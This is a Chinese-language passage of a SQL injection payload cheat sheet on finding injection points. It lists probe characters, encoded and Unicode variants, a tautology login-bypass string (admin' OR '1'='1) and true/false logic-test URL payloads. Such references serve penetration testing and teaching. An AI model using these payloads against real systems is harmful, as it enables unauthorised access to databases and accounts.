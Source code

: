 
## 入口点检测

检测SQL注入入口点

* **错误信息**：在输入字段中输入特殊字符（例如，单引号 '）可能会触发SQL错误。如果应用程序显示详细的错误信息，它可能表明潜在的SQL注入点。

  * 简单字符

    ```sql
    '
    %27
    "
    %22
    #
    %23
    ;
    %3B
    )
    通配符 (*)
    &apos;  # 用于XML内容
    ```

  * 多重编码

    ```sql
    %%2727
    %25%27
    ```

  * Unicode字符

    ```
    Unicode字符U+02BA MODIFIER LETTER DOUBLE PRIME（编码为%CA%BA）转换为U+0022 QUOTATION MARK（"）
    Unicode字符U+02B9 MODIFIER LETTER PRIME（编码为%CA%B9）转换为U+0027 APOSTROPHE（'）
    ```

* **基于重言式的SQL注入**：通过输入总是为真的条件（重言式），您可以测试漏洞。例如，在用户名字段中输入`admin' OR '1'='1`，如果系统易受攻击，您可能会以管理员身份登录。

  * 合并字符

    ```sql
    `+HERP
    '||'DERP
    '+'herp
    ' 'DERP
    '%20'HERP
    '%2B'HERP
    ```

  * 逻辑测试

    ```sql
    page.asp?id=1 or 1=1 -- 为真
    page.asp?id=1' or 1=1 -- 为真
    page.asp?id=1" or 1=1 -- 为真
    page.asp?id=1 and 1=2 -- 为假
    ```
